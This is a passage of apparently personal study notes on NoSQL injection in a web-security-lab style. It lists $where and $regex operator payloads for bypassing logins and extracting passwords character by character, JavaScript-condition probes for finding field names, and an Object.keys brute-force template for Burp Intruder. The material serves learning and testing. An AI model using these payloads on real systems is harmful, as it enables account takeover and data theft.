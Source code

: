 ***

**INJECT OPERATOR (where)**

* Consider `{"username":"wiener","password":"peter"}`
* Add `$where` operator as an additional parameter. Send one true request and one false request.
  * `{"username":"wiener","password":"peter", "$where":"0"}`
  * `{"username":"wiener","password":"peter", "$where":"1"}`
  * Different responses? This may indicate that the JavaScript expression in the `$where` clause is being evaluated

***

**INJECT OPERATOR (regex)**

* Consider `{"username":"myuser","password":"mypass"}`
  * `{"username":"myuser","password":"incorrect"}` (incorrect password)
  * `{"username":"admin","password":{"$regex":"^.*"}}`
  * Different responses? The app may be vulnerable
* `{"username":"admin","password":{"$regex":"^a*"}}`
  * Extract data character by character

## Identify field names

**FIRST WAY**

* Send the payload for an existing field and for a field that doesn't exist.&#x20;
* Example
  * `admin' && this.username!='` (you know `username` field exists)
  * `admin' && this.foo!='` (you know `foo` field doesn't exist)
  * `admin' && this.password!='` (you want identify `password` field)
    * `https://insecure-website.com/user/lookup?username=admin'+%26%26+this.password!%3d'`
* If the `password` field exists, you'd expect the response to be identical to the response for the existing field (`username`), but different to the response for the field that doesn't exist (`foo`).

***

**SECOND WAY**

* You can inject operator?
  * `"$where":"Object.keys(this)[0].match('^.{0}a.*')"`
  * This query selects documents where the first key (field) of the document starts with the letter "a". You can extract the field name char by char

{{< details summary="Example" >}}

```json
{
"username":"test",
"$where":"Object.keys(this)[§1§].match('^.{0}§u§.*')"
}
```

With intruder set: 1 payload: numbers, 2 payload: bruteforce chars.

